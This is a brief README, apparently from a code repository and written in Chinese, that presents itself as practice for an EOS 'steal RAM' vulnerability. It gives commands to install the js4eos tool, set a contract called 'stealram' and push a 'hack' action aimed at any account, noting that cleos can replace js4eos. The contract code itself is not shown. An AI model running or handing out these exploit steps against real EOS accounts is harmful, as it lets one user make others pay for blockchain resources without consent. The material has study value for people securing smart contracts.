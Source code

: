 # Introduction(简介)
偷窃RAM漏洞2实践

# Operation(操作)
## 安装js4eos
```
npm install -g js4eos
```
```
js4eos set contract youraccount stealram
js4eos push action youraccount hack '["anyaccount", "data"]' -p youraccount
```
上面js4eos可以替换为cleos

